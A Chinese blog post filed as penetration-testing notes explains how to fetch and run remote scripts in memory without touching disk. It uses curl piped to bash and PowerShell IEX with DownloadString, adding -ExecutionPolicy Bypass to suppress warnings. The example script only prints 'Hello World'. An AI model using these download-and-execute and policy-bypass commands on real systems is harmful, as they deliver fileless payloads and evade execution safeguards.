 ```yaml
---
layout: post
title: 在内存中执行远程脚本
tags: [linux,]
category: [渗透笔记,]
excerpt: 在不写入硬盘的情况下执行远程脚本的方法
---
```


在一些特殊情况下，我们不能向硬盘写入数据，但又要下载执行一个脚本，此时应如何做呢？  

## linux下执行远程Bash脚本

使用 curl 配合 `|`，就能基本实现：不接触硬盘，从远端加载脚本并执行。  

假设，在 `https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.sh` 处是一个 `bash` 脚本，内容如下：

```
echo "Hello World."
```

我们在本地执行：

```
curl https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.sh | bash
```

即可看到脚本执行的输出：`Hello World.`

如果，你不希望看到`curl`的输出，则可以给`curl`增加 `-Ls` 参数，使得`curl`不输出下载过程的信息。

```
curl -Ls https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.sh | bash
```

或者使左尖括号配合小括号的方法：

```
bash <(curl -Ls https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.sh)
```

又或者：

```
$(curl -sL https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.sh)
```

效果是一模一样的。

## windows下执行远程Powershell脚本

### 基本思路

前述操作都是在Linux下的，同时也介绍下Windows中类似的操作。  

首先思路是一样的，下载一个文件并直接执行。  

我们会用到：

- Net.WebClient 用于下载远程脚本
- Invoke-Expression 用于执行脚本

假设，在 `https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.ps1` 处是一个 `powershell` 脚本，内容如下：

```
echo "Hello World."
```

那么我们可以在本地powershell内按如下执行此脚本：

```
Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.ps1')
```

即可看到脚本执行的输出：`Hello World.`  

有时候我们会在 `cmd` 中执行，那么就不能直接使用 `Invoke-Expression` 了。我们可以调用 `powershell` 执行上述命令：

```
powershell "Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.ps1')"
```

就可以了。实际上，这个在 `powershell` 里也是能运行的。  

假如你的命令是要给别人运行的，那么就给他后面这个样子的，保证在 `powershell` 和 `cmd` 中都能运行。  

其实关于 `Invoke-Expression` ，它可以简写为：`IEX`。上述命令就可以简化为：

```
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.ps1')"
```
*这里不得不吐槽的是，网上文章各种抄，找资料的时候，这段命令各种少空格，显然是抄的时候不用心，自己都没执行过……*

### 优化操作

如果你的脚本执行了什么危险操作，是会受到 `powershell` 默认执行策略的限制的。但是我们可以通过 `-ExecutionPolicy` 来设置当前会话的执行策略。

其取值可以是：

- AllSigned
- Bypass
- Default
- RemoteSigned
- Restricted
- Undefined
- Unrestricted

我们可能会选择 `Bypass` ，这个策略是：

> Nothing is blocked and there are no warnings or prompts.

就是啥都不管，随便执行，也不会有警告或者提示。

那么我们的命令就变成如下样子：

```
powershell -ExecutionPolicy Bypass "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.ps1')"
```

鉴于 `-ExecutionPolicy` 可以简写为：`-exec` ，那么我们的命令即可简写为：

```
powershell -exec Bypass "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.ps1')"
```


## 参考文献

[About Execution Policies](https://docs.microsoft.com/zh-cn/powershell/module/microsoft.powershell.core/about/about_execution_policies)
